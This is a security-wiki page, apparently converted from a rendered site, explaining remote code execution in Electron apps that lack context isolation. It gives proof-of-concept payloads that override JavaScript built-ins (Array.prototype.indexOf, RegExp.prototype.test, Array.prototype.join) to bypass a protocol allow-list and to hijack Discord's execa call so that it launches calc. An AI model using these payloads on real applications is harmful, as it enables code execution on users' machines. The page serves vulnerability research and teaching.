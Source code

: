 # Electron contextIsolation RCE via preload code


## Example 1

Example from [[https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=30|https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=30]]

This code open http(s) links with default browser:

![[<../../../images/image (768).png>|]]

Something like `file:///C:/Windows/systemd32/calc.exe` could be used to execute a calc, the `SAFE_PROTOCOLS.indexOf` is preventing it.

Therefore, an attacker could inject this JS code via the XSS or arbitrary page navigation:

```html
<script>
  Array.prototype.indexOf = function () {
    return 1337
  }
</script>
```
```
As the call to `SAFE_PROTOCOLS.indexOf` will return 1337 always, the attacker can bypass the protection and execute the calc. Final exploit:

```html
<script>
  Array.prototype.indexOf = function () {
    return 1337
  }
</script>
[[file:///C:/Windows/systemd32/calc.exe|CLICK]]
```
```
Check the original slides for other ways to execute programs without having a prompt asking for permissions.

Apparently another way to load and execute code is to access something like `file://127.0.0.1/electron/rce.jar`

## Example 2: Discord App RCE

Example from [[https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1|https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1]]

When checking the preload scripts, I found that Discord exposes the function, which allows some allowed modules to be called via `DiscordNative.nativeModules.requireModule('MODULE-NAME')`, into the web page.\
Here, I couldn't use modules that can be used for RCE directly, such as _child_process_ module, but I **found a code where RCE can be achieved by overriding the JavaScript built-in methods** and interfering with the execution of the exposed module.

The following is the PoC. I was able to confirm that the **calc** application is **popped** up when I c**all the `getGPUDriverVersions` function** which is defined in the module called "_discord_utils_" from devTools, while **overriding the `RegExp.prototype.test` and `Array.prototype.join`**.

```javascript
RegExp.prototype.test = function () {
  return false
}
Array.prototype.join = function () {
  return "calc"
}
DiscordNative.nativeModules
  .requireModule("discord_utils")
  .getGPUDriverVersions()
```
```
The `getGPUDriverVersions` function tries to execute the program by using the "_execa_" library, like the following:

```javascript
module.exports.getGPUDriverVersions = async () => {
  if (process.platform !== "win32") {
    return {}
  }

  const result = {}
  const nvidiaSmiPath = `${process.env["ProgramW6432"]}/NVIDIA Corporation/NVSMI/nvidia-smi.exe

  try {
    result.nvidia = parseNvidiaSmiOutput(await execa(nvidiaSmiPath, []))
  } catch (e) {
    result.nvidia = { error: e.toString() }
  }

  return result
}
```
```
Usually the _execa_ tries to execute "_nvidia-smi.exe_", which is specified in the `nvidiaSmiPath` variable, however, due to the overridden `RegExp.prototype.test` and `Array.prototype.join`, **the argument is replaced to "**_**calc**_**" in the _execa**_**'s internal processing**.

Specifically, the argument is replaced by changing the following two parts.

[[https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L36|https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L36]]

[[https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L55|https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L55]]



